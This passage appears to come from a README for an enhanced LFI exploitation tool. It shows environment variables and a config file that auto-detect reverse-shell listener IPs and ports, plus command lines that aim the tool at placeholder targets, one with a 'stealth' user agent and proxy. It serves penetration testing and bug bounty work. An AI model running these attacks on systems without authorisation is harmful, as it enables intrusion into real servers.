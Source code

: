 ## 🔧 Configuration

### Environment Variables

Set default auto-detection behavior:

```bash
# Enable auto IP detection by default
export LIFFY_AUTO_IP=true

# Enable auto port detection by default
export LIFFY_AUTO_PORT=true

# Set default port range
export LIFFY_PORT_START=4444
export LIFFY_PORT_MAX=4500
```

### Configuration File

Add auto-detection settings to your config file:

```json
{
  "target_url": "http://target/file.php?page=",
  "technique": "auto",
  "auto_ip": true,
  "auto_port": true,
  "lhost": null,
  "lport": null
}
```

## 🎯 Use Cases

### Penetration Testing

```bash
# Quick setup with auto-detection
python3 liffy_enhanced.py --url http://target/file.php?page= --auto --auto-ip --auto-port

# Target-specific IP detection
python3 liffy_enhanced.py --url http://192.168.1.50/file.php?page= --auto --auto-ip --auto-port
```

### Bug Bounty

```bash
# Stealth mode with auto-detection
python3 liffy_enhanced.py --url http://target/file.php?page= --auto \
  --auto-ip --auto-port \
  --user-agent "Mozilla/5.0" \
  --proxy http://127.0.0.1:8080
```
